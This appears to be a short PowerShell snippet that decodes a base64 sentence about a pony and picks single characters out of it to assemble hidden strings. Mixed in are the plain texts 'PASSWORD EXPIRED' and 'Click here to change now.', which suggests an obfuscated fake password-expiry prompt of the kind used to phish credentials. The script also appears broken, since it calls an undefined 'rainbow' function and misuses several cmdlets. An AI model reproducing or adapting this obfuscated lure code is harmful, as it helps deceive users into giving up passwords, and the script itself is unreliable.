

# TL;DR
$secure_string = ConvertTo-SecureString -k $kisses $monarch
$encrypted_credentials = New-Object System.Net.NetworkCredential("", $secure_string)
$flower = $encrypted_credentials.Password
$flower
$decoded_flower = rainbow 'SSBhbSBhIGxpdHRsZSAtIDQgeWVhciBvbGQgcG9ueSAtIHRoYXQgZHJlYW1zIG9mIGJlaW5nIGEgdW5pY29ybi4gSSB3YW50IHRvIHBsYXkgYW5kIHJvbXAgYXJvdW5kIGluIHRoZSBza3kgZm9yIGxpa2UgMTB4IGEgZGF5LiBJIHdhbnQgdG8gcmlkZSByYWluYm93cyBhbmQgc2hvb3QgYnV0dGVyZmxpZXMgb3V0IG9mIG15IGhvcm4h'
$decoded_flower
$colorful = $decoded_flower -split ‘’

function pony {
    $trot = $colorful
    $01 = ($trot[69], $trot[8], $trot[22], $trot[4], $trot[26], $trot[22], $trot[65], $trot[13], $trot[120], $trot[13] -join '')
    $02 = ($trot[2])
    $03 = ($trot[15])
    $04 = ($trot[45])
    $05 = ($trot[2])
    $06 = ($trot[118], $trot[119], $trot[119], $trot[119], $trot[119] -join '')
    $07 = ($trot[2])
    $08 = ($trot[15], $trot[48] -join '')
    $09 = ($trot[27])
    $10 = ($trot[118])
    $11 = ($trot[39])
    $12 = ($trot[33], $trot[35], $trot[2] -join '')
    $13 = "PASSWORD EXPIRED"
    $14 = ($trot[2], $trot[15], $trot[4] -join '')
    $15 = ($trot[2])
    $16 = "Click here to change now."
    $17 = ($trot[2], $trot[15], $trot[3] -join '')
    $18 = " 10"
    $19 = ($trot[2])
    $20 = ($trot[15], $trot[164] -join '')
    $21 = ($trot[2])
    $22 = "https://acegif.com/wp-content/gif/unicorn-80.gif"
    return ($01, $02, $03, $04, $05, $06, $07, $08, $09, $10, $11, $12, $13, $14, $15, $16, $17, $18, $19, $20, $21, $22)
}